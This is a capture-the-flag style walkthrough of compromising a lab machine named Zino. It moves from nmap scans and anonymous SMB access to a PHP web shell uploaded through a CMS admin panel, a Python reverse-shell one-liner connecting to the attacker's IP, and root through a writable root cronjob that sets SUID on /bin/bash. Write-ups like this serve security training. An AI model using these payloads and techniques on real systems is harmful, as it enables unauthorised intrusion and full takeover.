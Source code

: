 First Enumeration with nmap 

`nmap -p- --min-rate 10000 -oN fulltcp.txt -v -Pn <IP>`

```
# Nmap 7.93 scan initiated Thu Dec 29 16:37:36 2022 as: nmap -p- --min-rate 10000 -oN fulltcp.txt -v -Pn 192.168.108.64
Nmap scan report for 192.168.108.64
Host is up (0.19s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3306/tcp open  mysql
8003/tcp open  mcreport

Read data files from: /usr/bin/../share/nmap
# Nmap done at Thu Dec 29 16:38:29 2022 -- 1 IP address (1 host up) scanned in 52.40 seconds
```

Got some interesting ports open, let's run default nmap scripts on those port to know what services run on them.

`nmap -sC -sV -oN normal.tcp -p 21,22,445,139,8003,3306 -Pn <IP>`

```
# Nmap 7.93 scan initiated Thu Dec 29 16:39:44 2022 as: nmap -sC -sV -oN normal.tcp -p 21,22,445,139,8003,3306 -Pn 192.168.108.64                              [19/80]
Nmap scan report for 192.168.108.64
Host is up (0.19s latency).        
                                         
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3                                            
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)          
| ssh-hostkey:         
|   2048 b26675501b18f5e99fdb2cd4e3957a44 (RSA)                                    
|   256 912d26f1baafd18b698f814a32af9c77 (ECDSA)                                   
|_  256 ec6fdf8bce19138a52573e72a3146f40 (ED25519)    
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)          
3306/tcp open  mysql?        
| fingerprint-strings: 
|   NULL, NotesRPC:                      
|_    Host '192.168.49.108' is not allowed to connect to this MariaDB server                                                                                          
8003/tcp open  http        Apache httpd 2.4.38                                                                                                                        
|_http-server-header: Apache/2.4.38 (Debian)                                       
|_http-title: Index of /                                                           
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-02-05 21:02  booked/
|_
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-ser
vice :
SF-Port3306-TCP:V=7.93%I=7%D=12/29%Time=63ADB4C5%P=x86_64-pc-linux-gnu%r(N
SF:ULL,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.49\.108'\x20is\x20not\x20a
SF:llowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(NotesRPC
SF:,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.49\.108'\x20is\x20not\x20allo
SF:wed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: Hosts: ZINO, 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: zino
|_  System time: 2022-12-29T10:40:03-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 1h40m00s, deviation: 2h53m13s, median: 0s
| smb2-time: 
|   date: 2022-12-29T15:40:05
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ 
```

Now we know what services are running. we start by enumerating smb 

`smbclient -L <IP> -N`

![image](https://user-images.githubusercontent.com/87468669/209984033-1f21db08-29ee-4697-9a74-6ed1161ed436.png)

Let's chck if we have anonymous access to the share zino.

```
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/PGP/Zino]
└─$ smbclient //192.168.108.64/zino/ -N 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Jul  9 20:11:49 2020
  ..                                  D        0  Tue Apr 28 14:38:53 2020
  .bash_history                       H        0  Tue Apr 28 16:35:28 2020
  error.log                           N      265  Tue Apr 28 15:07:32 2020
  .bash_logout                        H      220  Tue Apr 28 14:38:53 2020
  local.txt                           N       33  Thu Dec 29 17:24:59 2022
  .bashrc                             H     3526  Tue Apr 28 14:38:53 2020
  .gnupg                             DH        0  Tue Apr 28 15:17:02 2020
  .profile                            H      807  Tue Apr 28 14:38:53 2020
  misc.log                            N      424  Tue Apr 28 15:08:15 2020
  auth.log                            N      368  Tue Apr 28 15:07:54 2020
  access.log                          N     5464  Tue Apr 28 15:07:09 2020
  ftp                                 D        0  Tue Apr 28 15:12:56 2020
g  
                7158264 blocks of size 1024. 4726784 blocks available
smb: \> mget *
Get file .bash_history? y
NT_STATUS_ACCESS_DENIED opening remote file \.bash_history
Get file error.log? y
getting file \error.log of size 265 as error.log (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
Get file .bash_logout? y
getting file \.bash_logout of size 220 as .bash_logout (0.3 KiloBytes/sec) (average 0.2 KiloBytes/sec)
Get file local.txt? y
getting file \local.txt of size 33 as local.txt (0.0 KiloBytes/sec) (average 0.1 KiloBytes/sec)
Get file .bashrc? y
getting file \.bashrc of size 3526 as .bashrc (1.9 KiloBytes/sec) (average 0.7 KiloBytes/sec)
Get file .profile? y
getting file \.profile of size 807 as .profile (1.0 KiloBytes/sec) (average 0.8 KiloBytes/sec)
Get file misc.log? y
getting file \misc.log of size 424 as misc.log (0.5 KiloBytes/sec) (average 0.7 KiloBytes/sec)
Get file auth.log? y
getting file \auth.log of size 368 as auth.log (0.5 KiloBytes/sec) (average 0.7 KiloBytes/sec)
Get file access.log? y
getting file \access.log of size 5464 as access.log (2.9 KiloBytes/sec) (average 1.1 KiloBytes/sec)
smb: \> 
```

Great we had anonymous access to the share, and was able to download the files available in the share.Lt's check the contents on the files.

![image](https://user-images.githubusercontent.com/87468669/209985215-54a65646-3bc8-4d04-ae0c-a4cc34431252.png)

chcking the contents of other files was a rabbit hole, so i checked misc.log file and got some creds. Now let's enumerate the http service on port 8003.

![image](https://user-images.githubusercontent.com/87468669/209985614-7734a34c-dfab-4c39-9368-98f5200d4d22.png)

Great the webserver is running a cms named book scheduler, let's login with the creds found earlier `admin:adminadmin`

![image](https://user-images.githubusercontent.com/87468669/209986210-effc1358-a1d2-4abe-8978-7b6610feb251.png)

Bull's eye we got in the admin panel, now let's navigate to /admin/manage_theme.php dircetory.

![image](https://user-images.githubusercontent.com/87468669/209986669-e8651ece-24dc-406a-aefc-bac1f88bf20d.png)

Uploaded a php cmd shell, hit the update button and navigate to custom_favicon.php directory.

![image](https://user-images.githubusercontent.com/87468669/209987226-150c61a8-d1c4-4af2-aa1a-7aaf333029f8.png)

Boom!!! got RCE, now let's get a reverse shell. Fire ncat listener

![image](https://user-images.githubusercontent.com/87468669/209987294-50fe8065-0414-4e84-b926-7f1de4460f0c.png)

Reverse shell payload

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.108",22));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

![image](https://user-images.githubusercontent.com/87468669/209987409-25fe6879-2877-4b7e-a4b2-56ec57ba8e8a.png)

Check back ncat listener and pheeeeew we got a reverse shell. Now let's stabilize and escalate privs.

![image](https://user-images.githubusercontent.com/87468669/209987940-760e6a56-818b-42e6-b7e6-0e0f450bcae2.png)

After checking file to esc to root, i check the crontab and saw a python cronjob running as root every 3 mins on the target.

![image](https://user-images.githubusercontent.com/87468669/209988156-dd3e42ac-14d3-4a1d-8ec6-726310b6c2a5.png)

since we have read write perm to the file, let's edit and craft an suid for /bin/bash. 

`chmod +s /bin/bash`

![image](https://user-images.githubusercontent.com/87468669/209988426-059770c2-1c41-4313-bf5d-260fff5e928a.png)

change the commands to be run to creating an suid on bash instead of removing files from th reserved dir. Waited for 3 mins.

![image](https://user-images.githubusercontent.com/87468669/209988914-33184811-df65-483c-bdb9-eba66fd92273.png)

And boom!!! we are root😎😎
